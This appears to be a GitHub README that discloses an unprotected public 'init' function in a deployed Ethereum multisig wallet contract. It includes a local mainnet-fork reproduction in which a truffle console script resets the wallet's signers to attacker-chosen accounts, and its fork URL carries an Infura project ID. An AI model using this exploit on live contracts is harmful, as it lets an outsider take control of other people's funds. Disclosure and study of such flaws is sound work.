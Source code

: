 # Description 

The vulnerable contract was deployed on the [mainnet](https://etherscan.io/address/0x6630f77801e3d8ee4c624a628d0979ab9e7d111b#contracts) and its vulnerability was found by @samczsun and reported on the ETHSecurity Community Telegram channel.

The Smart Contract was designed to act as a 2 out of 3 multisignature wallet, but the function that was assigning the signers was exposed as a public one and without any authorization check, enabling anyone to set the signers of the SimpleWallet.

Before the vulnerable function 'init', we can see the same code in the constructor of WalletSimple and a comment stating that the signers cannot be changed once they are set:

```
  /**
   * Set up a simple multi-sig wallet by specifying the signers allowed to be used on this wallet.
   * 2 signers will be required to send a transaction from this wallet.
   * Note: The sender is NOT automatically added to the list of signers.
   * Signers CANNOT be changed once they are set
   *
   * @param allowedSigners An array of signers on the wallet
   */
  function WalletSimple(address[] allowedSigners) {
    if (allowedSigners.length != 3) {
      // Invalid number of signers
      throw;
    }
    signers = allowedSigners;
  }

    function init(address[] allowedSigners) {
    if (allowedSigners.length != 3) {
      // Invalid number of signers
      throw;
    }
    signers = allowedSigners;
  }
```

The developer's intention was clear, but forgot to either protect the init function or to completely remove it, since the Contract constructor does already what the developer originally intended to do.

# How to exploit on a local environment

```
npm install -g ganache-cli truffle
npm install truffle-contract
# Fork the mainnet locally from block 7899146
ganache-cli -f https://mainnet.infura.io/v3/45aad5d782be4a68904db4fdf74c315c@7899146 --debug
truffle console # on a different terminal
```

Then in the truffle development console run:

```
const abi = [{"constant":false,"inputs":[{"name":"toAddress","type":"address"},{"name":"value","type":"uint256"},{"name":"tokenContractAddress","type":"address"},{"name":"expireTime","type":"uint256"},{"name":"sequenceId","type":"uint256"},{"name":"signature","type":"bytes"}],"name":"sendMultiSigToken","outputs":[],"payable":false,"stateMutability":"nonpayable","type":"function"},{"constant":true,"inputs":[{"name":"","type":"uint256"}],"name":"signers","outputs":[{"name":"","type":"address"}],"payable":false,"stateMutability":"view","type":"function"},{"constant":false,"inputs":[{"name":"forwarderAddress","type":"address"},{"name":"tokenContractAddress","type":"address"}],"name":"flushForwarderTokens","outputs":[],"payable":false,"stateMutability":"nonpayable","type":"function"},{"constant":false,"inputs":[{"name":"toAddress","type":"address"},{"name":"value","type":"uint256"},{"name":"data","type":"bytes"},{"name":"expireTime","type":"uint256"},{"name":"sequenceId","type":"uint256"},{"name":"signature","type":"bytes"}],"name":"sendMultiSig","outputs":[],"payable":false,"stateMutability":"nonpayable","type":"function"},{"constant":false,"inputs":[{"name":"signer","type":"address"}],"name":"isSigner","outputs":[{"name":"","type":"bool"}],"payable":false,"stateMutability":"nonpayable","type":"function"},{"constant":false,"inputs":[],"name":"getNextSequenceId","outputs":[{"name":"","type":"uint256"}],"payable":false,"stateMutability":"nonpayable","type":"function"},{"constant":false,"inputs":[],"name":"createForwarder","outputs":[{"name":"","type":"address"}],"payable":false,"stateMutability":"nonpayable","type":"function"},{"constant":true,"inputs":[],"name":"safeMode","outputs":[{"name":"","type":"bool"}],"payable":false,"stateMutability":"view","type":"function"},{"constant":false,"inputs":[{"name":"allowedSigners","type":"address[]"}],"name":"init","outputs":[],"payable":false,"stateMutability":"nonpayable","type":"function"},{"constant":false,"inputs":[],"name":"activateSafeMode","outputs":[],"payable":false,"stateMutability":"nonpayable","type":"function"},{"inputs":[{"name":"allowedSigners","type":"address[]"}],"payable":false,"stateMutability":"nonpayable","type":"constructor"},{"payable":true,"stateMutability":"payable","type":"fallback"},{"anonymous":false,"inputs":[{"indexed":false,"name":"from","type":"address"},{"indexed":false,"name":"value","type":"uint256"},{"indexed":false,"name":"data","type":"bytes"}],"name":"Deposited","type":"event"},{"anonymous":false,"inputs":[{"indexed":false,"name":"msgSender","type":"address"}],"name":"SafeModeActivated","type":"event"},{"anonymous":false,"inputs":[{"indexed":false,"name":"msgSender","type":"address"},{"indexed":false,"name":"otherSigner","type":"address"},{"indexed":false,"name":"operation","type":"bytes32"},{"indexed":false,"name":"toAddress","type":"address"},{"indexed":false,"name":"value","type":"uint256"},{"indexed":false,"name":"data","type":"bytes"}],"name":"Transacted","type":"event"},{"anonymous":false,"inputs":[{"indexed":false,"name":"msgSender","type":"address"},{"indexed":false,"name":"otherSigner","type":"address"},{"indexed":false,"name":"operation","type":"bytes32"},{"indexed":false,"name":"toAddress","type":"address"},{"indexed":false,"name":"value","type":"uint256"},{"indexed":false,"name":"tokenContractAddress","type":"address"}],"name":"TokenTransacted","type":"event"}]

const address = '0x6630f77801e3d8ee4c624a628d0979ab9e7d111b'

var contract = require("truffle-contract");
var c = contract({abi: abi, address: address});
var provider = new web3.providers.HttpProvider("http://localhost:8545");
c.setProvider(provider);
var app;
c.at(address).then(function(instance){app = instance;});

let accounts = await web3.eth.getAccounts()

app.init([accounts[0], accounts[1], accounts[2]], {from: accounts[0]})

app.isSigner.call(accounts[0], {from: accounts[0]})
// true
app.isSigner.call(accounts[1], {from: accounts[0]})
// true
app.isSigner.call(accounts[2], {from: accounts[0]})
// true
```